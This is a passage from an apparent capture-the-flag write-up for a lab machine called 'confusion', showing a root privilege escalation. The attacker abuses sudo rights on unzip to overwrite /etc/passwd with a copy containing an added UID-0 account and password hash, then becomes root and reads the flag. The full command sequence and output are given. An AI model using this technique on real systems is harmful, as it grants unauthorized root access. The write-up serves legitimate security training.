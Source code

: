 {% endhighlight %}

The password was base64 and ROT13 encoded. 

### Root
So we can run **unzip** as root. GTFOBins doesn't give us anything so I have to use the old grey matter. The solution I came on was to copy /etc/passwd, add a new user (root2), zip it up, and then overwrite the real /etc/passwd during the unzip. Like so:

{% highlight shell %}
sammy@confusion:~$ cp /etc/passwd .
cp /etc/passwd .
sammy@confusion:~$ echo "root2:WVLY0mgH0RtUI:0:0:root:/root:/bin/bash" >> ./passwd   
sammy@confusion:~$ zip pass passwd
zip pass passwd
  adding: passwd (deflated 63%)
sammy@confusion:~$ sudo -u root /usr/bin/unzip pass -d /etc/
sudo -u root /usr/bin/unzip pass -d /etc/
Archive:  pass.zip
replace /etc/passwd? [y]es, [n]o, [A]ll, [N]one, [r]ename: y
y
  inflating: /etc/passwd
sammy@confusion:~$ su root2
su root2
Password: mrcake

root@confusion:/home/sammy# cd /root
cd /root
root@confusion:~# ls -lash
ls -lash
total 28K
4.0K drwx------  4 root root 4.0K Oct 25 14:59 .
4.0K drwxr-xr-x 18 root root 4.0K Oct 25 06:02 ..
   0 lrwxrwxrwx  1 root root    9 Oct 25 14:56 .bash_history -> /dev/null
4.0K -rw-r--r--  1 root root  571 Apr 10  2021 .bashrc
4.0K drwxr-xr-x  3 root root 4.0K Oct 25 14:23 .cache
4.0K drwxr-xr-x  3 root root 4.0K Oct 25 06:21 .local
4.0K -rw-r--r--  1 root root  161 Jul  9  2019 .profile
4.0K -rw-r--r--  1 root root   33 Oct 25 14:59 root.txt
root@confusion:~# cat root.txt
cat root.txt
FLAG_GOES_HERE
{% endhighlight %}

And that's the end of that.
